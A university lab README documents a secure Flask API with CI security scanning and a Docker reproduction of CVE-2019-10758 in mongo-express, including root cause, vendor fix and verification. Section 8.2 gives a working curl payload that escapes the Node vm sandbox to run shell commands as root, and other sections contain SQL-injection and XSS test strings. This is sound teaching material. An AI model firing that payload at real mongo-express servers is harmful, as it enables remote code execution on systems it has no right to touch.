





# Secure REST API · CI/CD Security Pipeline · CVE-2019-10758 Analysis

**HDU IS — Laboratory work No. 1**
*Secure REST API Development with CI/CD and Real CVE Vulnerability Analysis*

---

## 1. Purpose

Build a small but complete backend service that is secure *by design*, wire automated
security checks into the CI/CD pipeline, and then switch sides: reproduce a real
vulnerability in a controlled Docker environment, explain its root cause from the
source code, patch the environment and prove that the attack no longer works while the
application still functions.

The work covers the whole security lifecycle:

```
design (OWASP Top 10) → implement → test → SAST/SCA in CI → reproduce CVE → root cause → patch → verify
```

---

## 2. Technology stack

| Layer | Choice | Why |
|---|---|---|
| Language / framework | Python 3.12 · Flask 3.1 | Small surface, explicit security controls, easy to audit |
| Storage | SQLite via the `sqlite3` driver | No ORM magic: every query is visible and parameterised |
| Authentication | JWT (HS256) + bcrypt | Stateless auth, slow salted password hashing |
| CI/CD | GitHub Actions | Public pipeline runs, artefacts, job summary |
| SAST | **bandit** | Detects hard-coded secrets, unsafe calls, weak crypto |
| SCA | **pip-audit** | Matches dependencies against the PyPI advisory database |
| Vulnerable target | **mongo-express 0.53.0** (Vulhub) | CVE-2019-10758, code injection in the `/checkValid` endpoint |

---

## 3. Repository layout

```
.
├── app/
│   ├── __init__.py          # application factory, security headers, JSON error handlers
│   ├── config.py            # configuration, all secrets come from the environment
│   ├── db.py                # SQLite schema, parameterised access, seeding
│   ├── security.py          # bcrypt, JWT, require_auth, output encoding, throttling
│   ├── validation.py        # allow-list input validation
│   └── routes/
│       ├── auth.py          # POST /auth/login
│       └── data.py          # GET /api/data, POST /api/posts
├── tests/test_api.py        # 19 functional + security regression tests
├── scripts/
│   ├── demo_api.sh          # end-to-end curl demonstration
│   └── ci_summary.py        # renders the pipeline summary
├── .github/workflows/ci.yml # SAST + SCA + tests on every push and pull request
├── cve/mongo-express-CVE-2019-10758/
│   ├── docker-compose.yml          # vulnerable: vulhub/mongo-express:0.53.0 + mongo:3.4
│   ├── docker-compose.fixed.yml    # patched:    mongo-express:0.54.0
│   ├── reproduce.sh                # exploit: one POST executes a shell command
│   └── verify_fix.sh               # attack replay + regression check
├── evidence/                # raw terminal transcripts of every demonstration
├── docs/screenshots/        # rendered screenshots used in the report
├── Dockerfile               # non-root runtime image
└── requirements.txt / requirements-dev.txt
```

---

## 4. Quick start

```bash
python3 -m venv .venv && source .venv/bin/activate
pip install -r requirements-dev.txt

export JWT_SECRET="$(python3 -c 'import secrets; print(secrets.token_urlsafe(48))')"
python run.py                      # http://127.0.0.1:5000
./scripts/demo_api.sh              # prints the whole API contract with responses
pytest -q                          # 19 tests
```

Demo accounts created on first start: `admin / Admin!Passw0rd`, `demo / Demo!Passw0rd`
(override with `SEED_ADMIN_PASSWORD` / `SEED_DEMO_PASSWORD`).

---

## 5. API reference

### 5.1 `POST /auth/login`

Authenticates a user and returns a signed JWT.

```bash
curl -s -X POST http://127.0.0.1:5000/auth/login \
     -H 'Content-Type: application/json' \
     -d '{"username":"demo","password":"Demo!Passw0rd"}'
```

```json
{
  "access_token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
  "token_type": "Bearer",
  "expires_in": 900,
  "user": {"id": 2, "username": "demo", "role": "user"}
}
```

Failure modes: `400 validation_error` (malformed body), `401 invalid_credentials`
(generic message — no user enumeration), `429 too_many_attempts` (5 failures / 5 min).

### 5.2 `GET /api/data`  *(protected)*

Returns the data set. **Without a valid token the request is rejected with `401`.**

```bash
curl -s http://127.0.0.1:5000/api/data -H "Authorization: Bearer $TOKEN"
```

```json
{
  "requested_by": {"id": 2, "username": "demo", "role": "user"},
  "users": [{"id": 1, "username": "admin", "role": "admin", "created_at": "..."}],
  "posts": [{"id": 1, "title": "Welcome to the secure API", "author": "admin"}]
}
```

`password_hash` never leaves the database — it is not part of any `SELECT` list that
feeds a response.

### 5.3 `POST /api/posts`  *(protected — the endpoint designed for this work)*

Creates a post owned by the authenticated user. Chosen because it exercises the two
most common injection sinks at once: the value goes **into** SQL and comes **back out**
to a client that renders it.

```bash
curl -s -X POST http://127.0.0.1:5000/api/posts \
     -H "Authorization: Bearer $TOKEN" -H 'Content-Type: application/json' \
     -d '{"title":"<script>alert(1)</script>","body":"hello"}'
```

```json
{"message": "Post created.",
 "post": {"id": 3, "title": "&lt;script&gt;alert(1)&lt;/script&gt;", "body": "hello"}}
```

`400 validation_error` on empty/oversized fields, `401` without a token.

### 5.4 `GET /health`

Unauthenticated liveness probe used by the container `HEALTHCHECK`: `{"status": "ok"}`.

---

## 6. Implemented security measures

### 6.1 SQL injection (OWASP A03:2021 — Injection)

* **Every** statement uses `?` placeholders and a parameter tuple; SQL text is never
  assembled with `+`, `%` or f-strings (`app/db.py`, `app/routes/*.py`).

```python
row = get_db().execute(
    "SELECT id, username, password_hash, role FROM users WHERE username = ?",
    (username,),
).fetchone()
```

* Defence in depth: `clean_username()` only accepts `[A-Za-z0-9_.-]{3,32}`, so a payload
  such as `admin' OR '1'='1` is rejected with `400` before it ever reaches the driver.
* Test `test_sql_metacharacters_are_stored_literally` proves that
  `Robert'); DROP TABLE posts;--` is stored as **text** and the table survives.

### 6.2 Cross-site scripting (OWASP A03:2021)

* Every response payload passes through `encode_for_html()`, which recursively escapes
  `<`, `>`, `&`, `"` and `'` for all strings, including nested lists and dicts.
* `Content-Type: application/json` plus `X-Content-Type-Options: nosniff` prevents
  MIME sniffing into HTML, and a strict `Content-Security-Policy: default-src 'none'`
  blocks script execution even if a client renders the body.
* Verified by `test_xss_payload_is_escaped_in_responses`:
  `<script>alert('xss')</script>` is returned as `&lt;script&gt;...`.

### 6.3 Broken authentication (OWASP A07:2021)

| Control | Implementation |
|---|---|
| Password storage | bcrypt, cost 12, per-hash salt — no plaintext, no SHA-256 |
| Token | JWT HS256 with `sub`, `iat`, `exp` (15 min), `iss`; signature verified on every request |
| Enforcement | `@require_auth` decorator on every protected route; rejects missing, malformed, expired and foreign-signed tokens |
| Revocation | the subject is re-read from the database, so a deleted user loses access immediately |
| Brute force | 5 failed attempts per (IP, username) per 5 minutes → `429` + `Retry-After` |
| Enumeration | identical `401` message and a dummy bcrypt verification for unknown users |

Verified by `test_data_rejects_expired_token`, `test_data_rejects_tampered_token`,
`test_login_brute_force_is_rate_limited`, `test_login_failures_are_generic`.

### 6.4 Additional hardening

* **Input validation** — allow-list regexes and length caps on every field.
* **Error handling** — JSON-only errors, no stack traces, no internal paths.
* **Security headers** — `X-Frame-Options: DENY`, `Referrer-Policy: no-referrer`,
  `Cache-Control: no-store`, `X-Permitted-Cross-Domain-Policies: none`.
* **Secrets** — `JWT_SECRET` is read from the environment; if absent a random value is
  generated at start-up, so the code never ships a default key.
* **Container** — `Dockerfile` runs as an unprivileged user with a `HEALTHCHECK`.
* **Dependencies** — pinned versions, audited on every push (see §7.2).

---

## 7. CI/CD pipeline with security scanners

`.github/workflows/ci.yml` runs on every `push` to `main`, on every pull request and on
manual dispatch. Stages:

| Stage | Tool | What it proves |
|---|---|---|
| Tests | pytest + coverage | 19 functional and security regression tests pass |
| **SAST** | **bandit** (`-ll`) | no medium/high static findings across `app/` and `run.py` |
| **SCA** | **pip-audit** | no known CVEs in the resolved dependency set |

Both scanners emit machine-readable reports (`bandit.json`, `pip-audit.json`), a human
readable HTML/text version, and the job writes a Markdown summary to the run page.
All reports are uploaded as the `security-reports` artefact.

**Pipeline:** <https://github.com/Jiahe114514/hdu-is-lab1-secure-api/actions>



### 7.1 SAST — bandit



### 7.2 SCA — pip-audit



The first audit of the initial dependency set reported advisories; the affected pins
were upgraded (Flask 3.0.3 → 3.1.3, PyJWT 2.10.1 → 2.15.1) and one dependency
(`python-dotenv`) was removed as unnecessary. The current set is clean.

---

## 8. CVE analysis — CVE-2019-10758 (mongo-express code injection)

| Field | Value |
|---|---|
| CVE | **CVE-2019-10758** |
| Product | mongo-express < 0.54.0 |
| Class | Code injection (CWE-94/95): request data is passed to `eval()` inside a `vm` sandbox |
| Impact | Remote code execution as the container user (root in this image), without credentials in this build |
| CVSS v3.1 | 9.9 Critical (`AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`) |
| Environment | Vulhub `mongo-express/CVE-2019-10758`; images `vulhub/mongo-express:0.53.0` + `mongo:3.4`; host port 8081 |

### 8.1 Vulnerable environment

```bash
docker compose up -d          # cve/mongo-express-CVE-2019-10758/docker-compose.yml
docker compose ps             # web (0.53.0) + mongo 3.4, 8081->8081
```

The web interface answers on <http://127.0.0.1:8081>. This build ships without
basic authentication, so the vulnerable endpoint is reachable anonymously.

### 8.2 Reproduction

`/checkValid` accepts a free-form document string and passes it to `toBSON()`.
Supplying a JavaScript expression instead of JSON executes it:

```bash
curl -s -i -X POST http://127.0.0.1:8081/checkValid \
  --data-urlencode 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("id > /tmp/pwned.txt")'
```

The response is `HTTP 200` with the body `Valid`, and the command has run:

```
docker exec lab1-mongoexpress-vuln cat /tmp/pwned.txt
uid=0(root) gid=0(root) groups=0(root)
```



### 8.3 Root cause

`lib/bson.js` in 0.53.0 turns the request body into code:

```js
//JSON.parse doesn't support BSON data types
//Document is evaluated in a vm in order to support BSON data types
exports.toBSON = function (string) {
  var sandbox = exports.getSandbox();
  string = string.replace(/ISODate\(/g, 'new ISODate(');
  string = string.replace(/Binary\\(("[^"]+"),/g, 'Binary(new Buffer($1, "base64"),');
  vm.runInNewContext('doc = eval((' + string + '));', sandbox);
  return sandbox.doc;
};
```

Two things are wrong, and both are the same mistake in different clothes:

1. **The input is concatenated into `eval()`.** Whatever the user sends is
   parsed as *source code*, not as *data*. This is the code-injection analogue
   of string-concatenated SQL.
2. **`vm` is not a security boundary.** Node's documentation says so
   explicitly. A payload such as
   `this.constructor.constructor('return process')()` walks out of the sandbox
   and reaches `process.mainModule.require('child_process')`, which is exactly
   what the PoC does.

The NVD description puts it the same way: "a misuse of the `vm` dependency to
perform `exec` commands in a non-safe environment".

### 8.4 Fix

The fix is a version upgrade, and it replaces the evaluator with a parser:

```js
// 0.54.0 — lib/bson.js
const parser = require('mongodb-query-parser');

exports.toBSON = function (string) {
  return parser(string);
};
```

```yaml
# cve/mongo-express-CVE-2019-10758/docker-compose.fixed.yml
services:
  web:
    image: mongo-express:0.54.0      # was vulhub/mongo-express:0.53.0
    environment:
      ME_CONFIG_BASICAUTH: "false"   # same setting as the vulnerable build
```

Why it is effective: a **parser** consumes its input as data and has no
interpreter to escape from; `vm.runInNewContext` plus `eval` is a **runtime**
that will happily run anything. The vulnerability is not fixed by adding a
filter to the string — it is fixed by removing the code path that could execute
it. That is also why the fix had to come from the vendor: the `eval` lives in
the library, not in my application.

Both environments are deliberately configured the same way (basic auth off), so
the only difference between the vulnerable and the fixed deployment is the
software version.

### 8.5 Verification of the fix

```bash
docker compose down
docker compose -f docker-compose.fixed.yml up -d
./verify_fix.sh http://127.0.0.1:8081
```

```
=== attack replay against the patched container ===
  POST /checkValid               -> HTTP 200   command_executed=no
  body                           -> response: Invalid

=== regression: legitimate functionality still works ===
  GET / (web interface)          -> HTTP 200
  POST /checkValid {document:{}} -> HTTP 200 (Valid)
```



Two details matter here. The endpoint still answers `200`, but the body changed
from `Valid` to `Invalid` — the parser rejects the JavaScript expression instead
of evaluating it. And a normal document (`{}`) is still accepted and still
returns `Valid`, so the feature was not broken by the patch.

---

## 9. Test and evidence index

| Artefact | Location |
|---|---|
| API demonstration transcript | `evidence/api-demo.log` |
| CVE reproduction transcript | `evidence/cve-reproduction.log` |
| Fix verification transcript | `evidence/cve-fix-verification.log` |
| Test suite output | `evidence/pytest.log` |
| SAST report (JSON/HTML) | `evidence/bandit.json`, `evidence/bandit.html` |
| SCA report (JSON) | `evidence/pip-audit.json` |
| Screenshots | `docs/screenshots/` |

Terminal screenshots are rendered from these transcripts, so every byte shown in an
image can be checked against the corresponding `.log` file.

---

## 10. Answers to the control questions (short form)

1. **bcrypt vs SHA-256.** SHA-256 is fast and unsalted by design; an attacker with a GPU
   tests billions of guesses per second and rainbow tables defeat identical hashes.
   bcrypt embeds a random salt and a tunable work factor, so each guess costs ~100 ms.
2. **SAST vs DAST.** SAST reads source/bytecode without running the app and finds
   dangerous patterns early (but not runtime/config issues). DAST attacks a running
   instance and sees real behaviour (but cannot point at the exact line).
3. **JWT.** Three Base64url parts: header (algorithm), payload (claims: `sub`, `iat`,
   `exp`, `iss`), signature = HMAC-SHA256 over `header.payload` with the server secret.
   The server recomputes the signature and checks the claims; the payload is readable,
   therefore never confidential.
4. **No dependency auditing.** A vulnerable transitive library is a remote-code-execution
   path that your own code review never touches (Log4Shell being the canonical example).
5. **Docker + Vulhub.** Reproducible, disposable, isolated: one command builds the exact
   vulnerable version, `down` erases it, and nothing vulnerable ever runs on the host.
   This scenario comes straight from Vulhub, so the vulnerable and patched deployments
   differ only in the image tag.
6. **Vulnerability vs exploit.** A vulnerability is the flaw; an exploit is the concrete
   input/sequence that abuses it. This work reproduced the exploit and then removed the
   flaw.
7. **Regression testing after a patch.** A patch that changes path handling or
   authentication can silently break legitimate requests; §8.5 therefore replays both the
   attack (must fail) and normal usage (must keep working).
8. **Why reproduce known CVEs.** It converts advisory text into intuition about
   exploitability and detection — the difference between "this dependency is flagged" and
   "this is what the attacker actually sends".
